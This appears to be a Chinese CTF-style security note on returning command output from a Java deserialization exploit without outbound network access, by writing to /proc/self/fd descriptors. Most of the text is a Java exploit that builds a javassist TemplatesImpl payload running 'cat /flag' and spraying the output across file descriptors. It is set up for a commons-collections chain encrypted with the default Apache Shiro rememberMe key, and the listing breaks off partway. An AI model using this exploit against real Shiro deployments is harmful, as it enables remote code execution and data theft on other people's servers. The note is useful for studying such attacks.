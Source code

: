 可以执行命令，但不出网

[https://www.00theway.org/2020/01/17/java-god-s-eye/](https://www.00theway.org/2020/01/17/java-god-s-eye/)

[https://xz.aliyun.com/t/7307?time__1311=n4%2BxnD0GDte8DODuDBqroGkiDkmG8mGGFK%3DeD&alichlgref=https%3A%2F%2Fwww.google.com%2F](https://xz.aliyun.com/t/7307?time__1311=n4%2BxnD0GDte8DODuDBqroGkiDkmG8mGGFK%3DeD&alichlgref=https%3A%2F%2Fwww.google.com%2F)

在 linux 环境下，可以通过文件描述符"/proc/self/fd/i"获取到网络连接，在 java 中我们可以直接通过文件描述符获取到一个 Stream 对象，对当前网络连接进行读写操作

Exp

```java
<em>import </em>com.sun.org.apache.bcel.internal.Repository;
<em>import </em>com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
<em>import </em>com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
<em>import </em>com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
<em>import </em>javassist.ClassPool;
<em>import </em>javassist.CtClass;
<em>import </em>javassist.CtConstructor;
<em>import </em>org.apache.commons.collections.Transformer;
<em>import </em>org.apache.commons.collections.functors.InvokerTransformer;
<em>import </em>org.apache.commons.collections.keyvalue.TiedMapEntry;
<em>import </em>org.apache.commons.collections.map.LazyMap;
<em>import </em>org.apache.shiro.crypto.AesCipherService;
<em>import </em>org.apache.shiro.util.ByteSource;
<em>import </em>javax.xml.transform.Templates;
<em>import </em>java.io.ByteArrayOutputStream;
<em>import </em>java.io.FileDescriptor;
<em>import </em>java.io.FileOutputStream;
<em>import </em>java.io.ObjectOutputStream;
<em>import </em>java.lang.reflect.Constructor;
<em>import </em>java.lang.reflect.Field;
<em>import </em>java.util.HashMap;
<em>import </em>java.util.Map;

<em>public class </em>Exp {

    <em>static </em>ClassPool pool = ClassPool.getDefault();
    <em>public static void </em>main(String []args) <em>throws </em>Exception {


        CtClass ctClass = pool.makeClass("ab");
        CtClass superClass = pool.get(AbstractTranslet.<em>class</em>.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = <em>new </em>CtConstructor(<em>new </em>CtClass[]{},ctClass);
        constructor.setBody("{java.lang.reflect.Constructor c = java.io.FileDescriptor.class.getDeclaredConstructor(new Class[]{int.class});\n" +
                "        c.setAccessible(true);\n" +
                "        Process process = Runtime.getRuntime().exec(\"cat /flag\");\n" +
                "        java.io.InputStream in =  process.getInputStream();\n" +
                "        java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                "        String ret = br.readLine();\n" +
                "        java.io.FileOutputStream os = null;\n" +
                "        for(int i=0;;i++){os = new java.io.FileOutputStream((java.io.FileDescriptor)c.newInstance(new Object[] {new Integer(i)}));os.write(ret.getBytes());}" +
                "        Runtime.getRuntime().exec(\"touch b\");}");

        ctClass.addConstructor(constructor);
        <em>byte</em>[] bytes = ctClass.toBytecode();
        <em>byte</em>[] payloads = <em>new </em>Exp().getPayload(bytes);

        AesCipherService aes = <em>new </em>AesCipherService();
        <em>byte</em>[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
```